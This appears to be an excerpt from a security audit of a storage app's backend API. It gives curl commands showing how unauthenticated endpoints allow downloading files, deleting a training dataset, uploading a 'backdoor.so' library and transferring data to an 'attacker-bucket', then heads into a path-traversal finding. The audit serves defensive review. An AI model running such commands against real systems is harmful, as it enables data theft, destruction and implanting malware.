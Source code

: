 ```typescript
```

**Attack Scenarios:**

_Scenario 1: Data Exfiltration_

```bash
# Discover all storage locations
curl http://localhost:8888/api/local/locations
# Response: {"locations":[{"id":"local-0","path":"/mnt/pvc-0","available":true}]}

# List all files
curl http://localhost:8888/api/local/files/local-0/
# Response: {"files":[{"name":"sensitive-model.bin","type":"file","size":7000000000}]}

# Download sensitive data
curl http://localhost:8888/api/local/download/local-0/sensitive-model.bin -O
# 7GB model downloaded, no authentication required
```

_Scenario 2: Data Destruction_

```bash
# Delete entire dataset
curl -X DELETE http://localhost:8888/api/local/files/local-0/training-data/
# Response: {"deleted":true,"itemCount":15000}
# Entire dataset deleted without authentication
```

_Scenario 3: Malware Upload_

```bash
# Upload malicious shared library
curl -F "file=@backdoor.so" http://localhost:8888/api/local/files/local-0/.config/
# Malware uploaded to user's config directory
```

_Scenario 4: Pivot to S3 (Transfer Attack)_

```bash
# Transfer all local data to attacker-controlled S3 bucket
curl -X POST http://localhost:8888/api/transfer/transfer \
  -H "Content-Type: application/json" \
  -d '{
    "source": {"type": "local", "locationId": "local-0", "path": "/"},
    "destination": {"type": "s3", "locationId": "attacker-bucket", "path": "stolen/"},
    "files": ["sensitive-model.bin"],
    "conflictResolution": "overwrite"
  }'
# Initiates transfer of local files to attacker's S3 bucket
```

### ✅ POSITIVE: Path Traversal Protection (Excellent Implementation)

**Location:** `backend/src/utils/localStorage.ts:71-150`
